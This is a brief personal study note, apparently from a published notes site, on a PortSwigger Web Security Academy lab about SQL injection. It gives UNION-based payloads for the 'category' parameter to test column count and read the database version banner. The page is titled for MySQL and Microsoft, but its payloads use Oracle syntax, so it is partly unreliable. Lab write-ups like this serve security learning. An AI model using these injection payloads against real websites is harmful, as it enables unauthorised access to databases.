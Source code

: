 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/querying-the-database-type-and-version-on-my-sql-and-microsoft/"}
---
```







- Can use a UNION attack to retrieve the results from an injected query.
- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'+FROM+dual--
```

- After verifying the category,
    - Use the following payload to display the database version: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`